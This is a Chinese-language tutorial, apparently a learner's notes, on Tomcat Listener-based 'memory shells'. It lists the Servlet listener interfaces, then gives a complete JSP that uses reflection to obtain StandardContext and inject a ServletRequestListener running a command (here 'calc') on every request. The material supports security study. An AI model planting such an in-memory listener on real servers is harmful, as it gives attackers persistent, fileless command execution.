1. Listener 可以译为监听器，监听器用来监听对象或者流程的创建与销毁，通过 Listener，可以自动触发一些操作，因此依靠它也可以完成内存马的实现。来看看什么是 Listener。
    直接将当时学 Listener 的知识点搬过来：

    > 什么是监听器：
    >
    > 1. 监听器是 Servlet 规范中的一员。就像 Filter 一样。
    > 2. 在 Servlet 中，所有的监听器接口都是以 “Listener” 结尾。
    >
    > 作用：
    >
    > 1. 监听器实际上是 Servlet 规范留给 JavaWeb 程序员的特殊时机。
    > 2. 特殊的时刻如果想执行这段代码，你需要想到使用对应的监听器。常见的例子就是类的静态代码块。
    >
    > Servlet 规范中提供了哪些监听器：
    >
    > 1. jakarta.servlet 包下：
    >     1. ServletContextListener
    >     2. ServletContextAttributeListener
    >     3. ServletRequestListener
    >     4. ServletRequestAttributeListener
    > 2. jakarta.servlet.http包下：
    >     1. HttpSessionListener
    >     2. HttpSessionAttributeListener
    >         前六个是三个域的监听器以及向域内存取键值对的监听器，需要使用 `@WebListener`。
    >     3. HttpSessionBindingListener
    >         JavaBean 类实现该接口，当这个类被绑定或解绑到 Session 中时，其就会自动执行某些方法（不需要使用注解，因为它不是 Web 对象，它本质就是一个特殊的类）。
    >     4. HttpSessionIdListener
    >         Session 的 id 发生改变的时候，监听器中的唯一一个方法就会被调用。
    >     5. HttpSessionActivationListener
    >         监听 session 对象的钝化和活化的。
    
    这些 Listener 监听器都继承实现接口 `java.util.EventListener`。在 `ServletRequestListener` 接口中，提供了两个方法在 request 请求创建和销毁时进行处理，比较适合我们用来做内存马。
    
    
2. 添加 Listener 相比 Filter 和 Servlet 要更为简单，虽然 `StandardContext` 依旧没有直接给出 `addListener`，但是它其中有一些方法： 
    当然，知道了需要插入的变量，也可以直接通过反射写入。

3. Listener 内存马如下：
    ```jsp
    <%@ page import="javax.servlet.annotation.WebListener" %>
    <%@ page import="java.io.IOException" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %><%--
      Created by IntelliJ IDEA.
      User: hasee
      Date: 2023/5/5
      Time: 19:40
      To change this template use File | Settings | File Templates.
    --%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Title</title>
    </head>
    <body>
    <%!
        @WebListener("MemoryTrojanListener")
        public class MemoryTrojanListener implements ServletRequestListener {
    
            @Override
            public void requestDestroyed(ServletRequestEvent sre) {
    
            }
    
            @Override
            public void requestInitialized(ServletRequestEvent sre) {
                try {
                    Runtime.getRuntime().exec("calc");
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    %>
    <%
        // 1. 获取 StandardContext
        ServletContext servletContext = request.getServletContext();
        // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
        Field applicationContextField = servletContext.getClass().getDeclaredField("context");
        applicationContextField.setAccessible(true);
        // 通过反射拿到 servletContext 具体的 ApplicationContext
        ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
        // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
    
        // 2. 通过 standardContext 添加 listener
        standardContext.addApplicationEventListener(new MemoryTrojanListener());
    %>
    </body>
    </html>
    ```
